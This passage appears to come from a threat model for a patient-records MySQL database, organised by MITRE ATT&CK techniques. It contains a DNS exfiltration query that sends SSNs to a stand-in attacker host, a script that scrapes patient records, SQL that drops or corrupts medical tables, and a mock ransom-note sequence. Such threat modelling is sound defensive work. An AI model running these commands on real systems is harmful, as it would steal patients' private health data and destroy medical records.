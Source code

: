 **T1048: Exfiltration Over Alternative Protocol**
- **Description:** Use SQL to exfiltrate data
- **Methods:**
  - `INTO OUTFILE` - Write to filesystem
  - `mysqldump` - Full database dump
  - `SELECT ... INTO DUMPFILE` - Binary data
  - DNS exfiltration via UDF

**Example - DNS Exfiltration:**
```sql
-- If MySQL has DNS resolution:
SELECT CONCAT(ssn, '.exfil.attacker.com') FROM patients;
-- Sends SSNs via DNS queries (stealth exfil)
```

---

**T1567: Exfiltration Over Web Service**
- **Description:** Use application to exfiltrate data
- **Method:**
```python
# Script to extract all data via web API
import requests
for patient_id in range(1, 51):
    response = requests.get(f'http://target/api/patient/{patient_id}')
    # Save PHI
```

---

#### Impact

**T1485: Data Destruction**
- **Description:** Attacker with ALL PRIVILEGES can destroy data
- **Examples:**
```sql
-- Delete all patient data
DROP TABLE patients CASCADE;

-- Corrupt medical records
UPDATE medical_records SET diagnosis='DELETED', doctor_notes='DELETED';

-- Ransomware scenario:
RENAME TABLE patients TO patients_encrypted;
RENAME TABLE medical_records TO medical_records_encrypted;
-- Demand ransom for restoration
```

---

**T1486: Data Encrypted for Impact (Ransomware)**
- **Description:** Encrypt database for ransom
- **Method:**
```sql
-- Backup current data (attacker keeps copy)
CREATE TABLE patients_backup AS SELECT * FROM patients;

-- "Encrypt" by moving to attacker-controlled table
RENAME TABLE patients TO patients_ransomed;
CREATE TABLE patients (id INT PRIMARY KEY, note TEXT);
INSERT INTO patients VALUES (1, 'Your data is encrypted. Pay 10 BTC to recover.');
```

---